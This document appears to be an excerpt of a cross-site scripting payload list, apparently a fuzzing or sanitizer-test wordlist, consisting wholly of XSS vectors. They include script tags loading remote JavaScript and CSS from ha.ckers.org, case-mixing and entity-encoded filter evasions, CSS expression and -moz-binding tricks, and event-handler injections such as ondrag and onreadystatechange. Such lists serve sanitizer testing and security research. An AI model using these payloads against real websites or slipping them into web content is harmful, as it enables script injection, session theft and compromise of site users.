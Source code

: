 $$<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>$$
$$<SCRIPT SRC=%(jscript)s?<B>$$
$$<SCRIPT SRC=//ha.ckers.org/.j>$$
$$<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>$$
$$<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >$$
$$<SCRIPT SRC=http://ha.ckers.org/xss.js?<B>$$
$$<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>$$
$$<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>$$
$$<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>$$
$$<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>$$
$$<SCRIPT onreadystatechange=javascript:javascript:alert(1);></SCRIPT>$$
$$<SCRIPT+FOR=document+EVENT=onreadystatechange>MouseEvent=function+MouseEvent(){};test=new+MouseEvent();test.isTrusted=true;test.type=%22click%22;getElementById(%22safe123%22).click=function()+{alert(Safe.get());};getElementById(%22safe123%22).click(test);</SCRIPT>#$$
$$<SCRIPT/SRC="%(jscript)s"></SCRIPT>$$
$$<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>$$
$$<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>$$
$$<SCRIPT>a=/XSS/$$
$$<SCRIPT>alert('XSS');</SCRIPT>$$
$$<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>$$
$$<STYLE TYPE="text/javascript">alert('XSS');</STYLE>$$
$$<STYLE TYPE="text/javascript">javascript:alert(1);</STYLE>$$
$$<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>$$
$$<STYLE type="text/css">BODY{background:url("javascript:javascript:alert(1)")}</STYLE>$$
$$<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>$$
$$<STYLE>.XSS{background-image:url("javascript:javascript:alert(1)");}</STYLE><A CLASS=XSS></A>$$
$$<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>$$
$$<STYLE>@import'%(css)s';</STYLE>$$
$$<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>$$
$$<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>$$
$$<STYLE>a{background:url('s1' 's2)}@import javascript:javascript:alert(1);');}</STYLE>$$
$$<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>$$
$$<STYLE>li {list-style-image: url("javascript:javascript:alert(1)");}</STYLE><UL><LI>XSS$$
$$<SVg </onlOad ="1> (_=prompt,_(1)) "">$$
$$<ScRiPt>alert(1)</sCriPt>$$
$$<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?$$
$$<ScRipT>alert("XSS");</ScRipT>$$
$$<TABLE BACKGROUND="javascript:alert('XSS')">$$
$$<TABLE BACKGROUND="javascript:javascript:alert(1)">$$
$$<TABLE><TD BACKGROUND="javascript:alert('XSS')">$$
$$<TABLE><TD BACKGROUND="javascript:javascript:alert(1)">$$
$$<X OnXxx=1 $$
$$<X onxxx=1 $$
$$<XML ID=I><X><C><![CDATA[<IMG SRC="javas]]<![CDATA[cript:javascript:alert(1);">]]</C><X></xml>$$
$$<XML SRC="http://ha.ckers.org/xsstest.xml" ID=I></XML>$$
$$<XSS STYLE="behavior: url(%(htc)s);">$$
$$<XSS STYLE="behavior: url(xss.htc);">$$
$$<XSS STYLE="xss:expression(alert('XSS'))">$$
$$<XSS STYLE="xss:expression(javascript:alert(1))">$$
$$<Z oncut=alert()>x$$
$$<a  href="data:text/html;blabla,&#60&#115&#99&#114&#105&#112&#116&#32&#115&#114&#99&#61&#34&#104&#116&#116&#112&#58&#47&#47&#115&#116&#101&#114&#110&#101&#102&#97&#109&#105&#108&#121&#46&#110&#101&#116&#47&#102&#111&#111&#46&#106&#115&#34&#62&#60&#47&#115&#99&#114&#105&#112&#116&#62&#8203">Click  Me</a>$$
$$<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa  aaaaaaaaa aaaaaaaaaa  href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe$$
$$<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe$$
$$<a class=bar href="http://www.example.org">www.example.org</a>$$
$$<a draggable="true" ondrag="alert(1)">test</a>$$
$$<a draggable="true" ondragend="alert(1)">test</a>$$
$$<a draggable="true" ondragenter="alert(1)">test</a>$$
$$<a draggable="true" ondragleave="alert(1)">test</a>$$